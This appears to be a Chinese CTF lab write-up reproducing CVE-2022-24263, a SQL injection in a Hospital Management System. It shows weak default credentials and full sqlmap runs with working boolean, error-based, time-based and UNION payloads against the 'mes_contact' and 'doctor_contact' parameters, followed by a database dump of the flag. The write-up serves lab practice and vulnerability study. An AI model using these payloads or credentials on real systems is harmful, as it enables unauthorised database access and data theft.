


# CVE-2022-24263（Hospital Management System sqli）

<div style="text-align: right;">

date: "2023-01-16"

</div>

## 漏洞描述

- Hospital Management System sqli（医院管理系统sql注入）

## 漏洞原理

- 暂无

## 漏洞复现


通过注册页面，注册账号进入后台，未发现利用点


换至接待员登陆，存在弱口令：admin/admin123



接待员账户功能点较多，查询页面抓包，sqlmap一把梭，存在注入点




```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r 1.txt
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:23:05 /2023-01-13/

[22:23:05] [INFO] parsing HTTP request from '1.txt'
[22:23:05] [INFO] testing connection to the target URL
[22:23:06] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:23:07] [INFO] testing if the target URL content is stable
[22:23:08] [INFO] target URL content is stable
[22:23:08] [INFO] testing if POST parameter 'mes_contact' is dynamic
[22:23:09] [WARNING] POST parameter 'mes_contact' does not appear to be dynamic
[22:23:09] [INFO] heuristic (basic) test shows that POST parameter 'mes_contact' might be injectable (possible DBMS: 'MySQL')
[22:23:10] [INFO] testing for SQL injection on POST parameter 'mes_contact'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]

[22:23:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:23:26] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:23:28] [INFO] testing 'Generic inline queries'
[22:23:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[22:24:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[22:24:17] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:24:27] [INFO] POST parameter 'mes_contact' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="to")
[22:24:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:24:28] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[22:24:28] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[22:24:30] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[22:24:31] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[22:24:32] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[22:24:33] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[22:24:33] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[22:24:34] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:24:35] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:24:39] [INFO] POST parameter 'mes_contact' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:24:39] [INFO] testing 'MySQL inline queries'
[22:24:39] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:24:39] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[22:24:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[22:24:43] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[22:24:44] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[22:24:46] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:24:46] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[22:24:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[22:24:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[22:24:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:24:55] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[22:25:01] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[22:25:02] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[22:26:02] [INFO] POST parameter 'mes_contact' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable
[22:26:02] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:02] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[22:26:02] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:24] [INFO] target URL appears to be UNION injectable with 4 columns
[22:26:25] [INFO] POST parameter 'mes_contact' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[22:26:25] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'mes_contact' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 123 HTTP(s) requests:
---
Parameter: mes_contact (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: mes_contact=-3333' OR 2233=2233#&mes_search_submit=%E6%90%9C%E7%B4%A2

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: mes_contact=111' OR (SELECT 4753 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(4753=4753,1))),0x716a7a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ojPg&mes_search_submit=%E6%90%9C%E7%B4%A2

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: mes_contact=111' OR SLEEP(5)-- tktQ&mes_search_submit=%E6%90%9C%E7%B4%A2

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: mes_contact=111' UNION ALL SELECT NULL,NULL,CONCAT(0x7176717671,0x4d684a676145637948434a744f644e67544d7362675a53714f626f784c516b585875565657697959,0x716a7a6271),NULL#&mes_search_submit=%E6%90%9C%E7%B4%A2
---
[22:26:26] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:26:27] [INFO] fetched data logged to text files under 'C:\Users\手动打码\AppData\Local\sqlmap\output\eci-2ze3p3ftillayemukqne.cloudeci1.ichunqiu.com'
[22:26:27] [WARNING] your sqlmap version is outdated

[*] ending @ 22:26:27 /2023-01-13/
```

在数据库查找到flag


```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r 1.txt -D ctf -T flag -C flag --dump --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:35:39 /2023-01-16/

[15:35:39] [INFO] parsing HTTP request from '1.txt'
[15:35:39] [INFO] resuming back-end DBMS 'mysql'
[15:35:39] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: doctor_contact (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: doctor_contact=-7924' OR 9369=9369#&doctor_search_submit=%E6%90%9C%E7%B4%A2

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: doctor_contact=123' OR (SELECT 6296 FROM(SELECT COUNT(*),CONCAT(0x717a626271,(SELECT (ELT(6296=6296,1))),0x7162706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- SYth&doctor_search_submit=%E6%90%9C%E7%B4%A2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: doctor_contact=123' AND (SELECT 7742 FROM (SELECT(SLEEP(5)))PHEo)-- cPwp&doctor_search_submit=%E6%90%9C%E7%B4%A2

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: doctor_contact=123' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a626271,0x4c4b43696d794a6b4b464241474f516259526958426f57725a626548585072475a50724576634c62,0x7162706a71)#&doctor_search_submit=%E6%90%9C%E7%B4%A2
---
[15:35:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:35:40] [INFO] fetching entries of column(s) 'flag' for table 'flag' in database 'ctf'
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{bff6a10e-9a35-48a1-a4aa-665ab08b7a70} |
+--------------------------------------------+

[15:35:43] [INFO] table 'ctf.flag' dumped to CSV file 'C:\Users\手动打码\AppData\Local\sqlmap\output\eci-2zeh8obpmkycwodjrs3i.cloudeci1.ichunqiu.com\dump\ctf\flag.csv'
[15:35:43] [INFO] fetched data logged to text files under 'C:\Users\手动打码\AppData\Local\sqlmap\output\eci-2zeh8obpmkycwodjrs3i.cloudeci1.ichunqiu.com'
[15:35:43] [WARNING] your sqlmap version is outdated

[*] ending @ 15:35:43 /2023-01-16/
```

注：在医生登陆页面可以直接sql注入，无需登录
